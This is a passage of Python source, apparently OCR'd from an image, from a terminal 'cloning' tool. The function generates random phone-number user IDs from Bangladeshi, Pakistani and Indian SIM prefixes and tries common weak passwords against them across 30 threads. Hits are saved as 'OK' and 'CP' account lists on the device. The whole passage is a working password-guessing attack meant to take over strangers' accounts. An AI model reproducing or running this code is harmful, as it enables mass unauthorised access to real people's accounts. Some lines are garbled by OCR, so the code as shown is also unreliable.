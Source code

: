 def pass4():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m4') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,'khankhan','khan khan','khan123','khan12','khan1122']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

